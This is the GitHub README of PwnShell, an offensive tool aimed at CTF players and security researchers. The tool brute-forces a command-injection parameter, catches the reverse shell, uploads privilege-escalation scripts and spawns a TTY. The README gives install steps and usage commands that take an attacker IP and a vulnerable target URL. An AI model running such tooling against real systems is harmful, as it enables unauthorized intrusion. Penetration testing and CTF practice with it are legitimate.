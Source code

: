 

# PwnShell

### PwnShell is a Powerfull RevShell Bruteforcer and Connection Handler built For Security Researchers and CTF Players!
<details>
    <ol>
    <li><div>Bruteforces the Vulnerable Parameter</div></li>
    <li><div>Recieve and Handle the Connection</div></li>
    <li><div>Downloads Post exploitation scripts from their Repos.</div></li>
    <li><div>Uploads them to target</div></li>
    <li><div>Activates a TTY shell using Python3 </div></li>
    <li><div>Enjoy!</div></li>
  </ol>
</details>

![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/PwnShell.png)

## Navigation:
   <ol>
    <li><a href="#installation">Installation</a></li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#contact">Contact</a></li>
    <li><a href="#acknowledgements">Acknowledgements</a></li>
  </ol>

## Installation:

1. Clone the repo
   ```sh
   git clone https://github.com/zAbuQasem/PwnShell
   ```
2. Install the dependencies
   ```sh
   cd PwnShell/
   pip3 install -r requirements.txt
   ```
3. Make the script executable 
   ```sh
   chmod +x pwnshell.py
   ```

<!-- USAGE EXAMPLES -->
## Usage:
### Request-File Method [Recommended] 👇
```sh
./pwnshell.py -i [Attacker-IP] -f [REQUEST FILE] -s (To use https prefix)
```
#### Example:
-Copy from Burp or Network tab

-Replace the Vulnerable place in the parameter with 'PWNME'
```sh
GET /Vulnerable.php?cmd=PWNME HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
### URL Method 👇
```sh
./pwnshell.py -i [Attacker-IP] -p [Attacker-Port] -u [TARGET-URL] -m [REQUEST-METHOD] -c [COOKIES (optional)] -H [HEADERS (optional)]

#Note: Cookie and headers must be in JSON format (if provided).
   ```
```sh
./pwnshell.py -i [Attacker-IP] -u http/s://<TARGET>/vulnerable.php?cmd=PWNME --method GET --cookies '{"key" : "value"}' 
```
#### Example:
-Replace the Vulnerable place in the parameter with 'PWNME'
```sh

./pwnshell.py -H 127.0.0.1 -u http://10.10.10.10/vulnerable.php?cmd=PWNME
```

## Preview:
### Using [Request-File Method]
![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/requestfile-demo.gif)

### Using [URL Method]
![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/url-demo.gif)


<!-- CONTACT -->
## Contact:

**Zeyad AbuQasem** - [LinkedIn](https://www.linkedin.com/in/zeyad-abuqasem/)

**Omar Albalouli** - [LinkedIn](https://www.linkedin.com/in/omar-albalouli/) & [Github](https://github.com/omaralbalolly)

<!-- ACKNOWLEDGEMENTS -->
## Acknowledgements:
* [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [LinEnum](https://github.com/rebootuser/LinEnum)
* [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
* [Docker Privesc Script](https://github.com/flast101/docker-privesc)
* [SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
* [Burpee](https://github.com/xscorp/Burpee)
